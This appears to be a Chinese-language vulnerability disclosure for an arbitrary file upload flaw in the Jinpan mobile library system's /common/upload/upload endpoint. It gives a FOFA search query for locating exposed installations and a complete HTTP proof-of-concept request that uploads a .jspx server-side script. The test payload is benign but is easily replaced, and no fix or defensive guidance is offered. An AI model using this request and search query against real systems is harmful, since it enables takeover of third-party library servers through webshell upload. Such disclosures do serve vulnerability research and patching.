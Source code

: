 # 金盘移动图书馆系统upload存在任意文件上传漏洞

金盘图书馆微信管理平台 /common/upload/upload 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取权限。

## fofa

```javascript
app="金盘软件-金盘移动图书馆系统"
```

## poc

```javascript
POST /common/upload/upload HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=399e563f0389566bd40fd4d6409a67dd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cookie: JSESSIONID=D8C7BD39FAF4DD095FBBB0E87FB017C5
Connection: close
Content-Length: 179

--399e563f0389566bd40fd4d6409a67dd
Content-Disposition: form-data; name="file"; filename="aaaaaa.jspx"

<% out.println("Do You Want?"); %>
--399e563f0389566bd40fd4d6409a67dd--
```

![image-20250217100804857](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502171008957.png)